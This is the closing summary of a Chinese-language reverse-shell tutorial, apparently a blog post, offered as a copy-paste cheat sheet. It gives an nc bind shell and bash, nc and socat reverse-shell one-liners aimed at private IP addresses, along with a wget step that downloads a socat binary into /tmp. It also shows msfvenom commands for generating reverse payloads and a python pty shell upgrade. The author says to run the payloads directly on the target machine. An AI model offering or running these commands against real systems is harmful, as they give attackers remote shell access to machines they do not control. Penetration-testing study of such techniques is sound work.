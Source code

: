   

**四、写在最后**

最后将上面学习的内容做一下小结，以方便日后可以直接复制粘贴使用，笔者贴心不，你就说贴心补贴（ou tu bu zhi …）

**4.1 nc开启本地监听发布bash服务**

```
# nc -lvvp 12345 -t -e /bin/bash
```

**4.2 常用反弹shell一句话**

（1） bash 反弹一句话

```
# bash -i >& /dev/tcp/192.168.1.123/12345 0>&1
```

（2） nc 反弹一句话

```
# nc 192.168.1.123 12345 -t -e /bin/bash
```

（3） socat 反弹一句话

```
`# wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat      # 第一步：下载socat到/tmp目录下``# chmod 755 /tmp/socat          # 第二步：给socaat授予可以执行权限``# /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.31.41：12345        # 第三步：反弹shell到目标主机的12345端口`
```

```
**4.3 利用msfvenom获取反弹一句话**  

```

（1） 查询 reverse payload 反弹路径

```
# msfvenom -l payloads 'cmd/unix/reverse'
```

（2） 生成相关反弹一句话

```
`# msfvenom -p cmd/unix/reverse_xxxx lhost=1.1.1.1 lport=12345 R`
```

```
剩下的就是将生成的payload 反弹一句话直接复制到靶机上直接运行即反弹一个shell出来。  

```

**4.4 使用python获取标准shell**

直接在获取的废标准shell上直接运行一下python 一句话即可获取一个标准的shell。

```
# python -c "import pty;pty.spawn('/bin/bash')"
```
